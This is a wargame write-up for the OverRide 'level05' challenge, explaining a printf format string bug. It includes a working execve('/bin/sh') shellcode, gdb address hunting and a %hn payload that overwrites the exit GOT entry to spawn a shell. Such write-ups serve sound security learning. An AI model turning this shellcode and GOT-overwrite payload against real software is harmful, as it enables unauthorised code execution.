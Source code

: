 # level05
## Program behaviour

1. Read a `buffer` from `stdin`
2. Apply `tolower` to each byte of `buffer`
3. Call `printf(buffer)`
4. Call `exit(0)`

## Vulnerability

The program calls `printf` with buffer as format string. This is vunerable to `printf` attacks.

## Exploitation

We need to overwrite with `printf` the address of `exit@plt`

1. Setup an environnement variable containing the shellcode
```sh
export SHCODE=$(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

2. Search for the right addresses
    - `0x080497e0` is the address to overwrite
    - `0xffffdf2f` is the address to jump to
```gdb
(gdb) x/s *((char **)environ + 16)
0xffffdf28:	 "SHCODE=\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
(gdb) p/x 0xffffdf28+7
$1 = 0xffffdf2f
(gdb) p/d 0xdf2f
$2 = 57135
(gdb) p/d 0xffff-0xdf2f
$3 = 8400
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

3. Craft and run the `printf` exploit. Note that we need to have the same `env` as `gdb`. Otherwise offsets don't match.
```sh
level05@OverRide:~$ gdb level05 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%57127x%10$hn%8400x%11$hn"'; cat) | ~/level05
```